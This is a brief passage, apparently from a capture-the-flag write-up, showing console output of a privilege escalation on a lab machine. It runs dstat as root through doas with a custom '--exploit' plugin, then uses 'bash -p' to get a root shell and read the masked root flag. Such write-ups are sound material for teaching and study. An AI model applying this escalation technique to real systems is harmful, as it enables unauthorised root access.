 ```console
player@soccer:~$ doas -u root /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

```console
player@soccer:~$ bash -p
bash-5.0# cat /root/root.txt
ac6b****************************
```

